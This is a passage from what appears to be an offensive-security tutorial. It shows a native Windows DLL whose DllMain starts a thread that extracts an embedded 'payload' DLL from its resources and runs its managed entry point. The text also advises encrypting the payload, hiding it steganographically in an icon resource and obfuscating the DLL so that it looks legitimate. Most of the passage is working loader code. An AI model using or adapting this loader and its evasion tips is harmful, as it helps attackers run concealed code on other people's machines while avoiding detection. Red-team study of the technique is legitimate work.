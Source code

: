 There is a simple solution to this problem: Rather than call managed code directly from DllMain, we will instead create a new thread from a second native function, and then call managed code from that. The new thread will perform two roles.

* Ensure that the parent thread (and process) can continue to execute in the background
* Ensure that the module can finish initialization, allowing the Windows loader to unlock the process-global critical section


### Payload Location

URL or embedded? We will embed it as a resource. In the real world, you should also encrypt it and maybe store it in an image file as a form of stego. This would simulate a legitimate use of PE resources: file icons. In the real world, I would obfuscate the ST DLL, but this code was sufficient to demonstrate the concept.

#### The Unmanaged Code

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#define WIN32_LEAN_AND_MEAN
#include "stdafx.h"
#include <windows.h>
#include <iostream>
#include "resource.h"
extern void LaunchDll(
	unsigned char *dll, size_t dllLength,
	char const *className, char const *methodName);
static DWORD WINAPI launcher(void* h)
{

	std::cout << "Created thread...";

	HRSRC res = ::FindResourceA(static_cast<HMODULE>(h),
		MAKEINTRESOURCEA(IDR_DLLENCLOSED6), "DLLENCLOSED");
	if (res)
	{
		HGLOBAL dat = ::LoadResource(static_cast<HMODULE>(h), res);
		if (dat)
		{
			unsigned char *dll =
				static_cast<unsigned char*>(::LockResource(dat));
			if (dll)
			{
				size_t len = SizeofResource(static_cast<HMODULE>(h), res);
				LaunchDll(dll, len, "ST", "Main");
			}
		}
	}
	return 0;
}
extern "C" BOOL APIENTRY DllMain(HMODULE h, DWORD reasonForCall, void* resv)
{
	if (reasonForCall == DLL_PROCESS_ATTACH)
	{
		CreateThread(0, 0, launcher, h, 0, 0);
	}
	return TRUE;
}

```
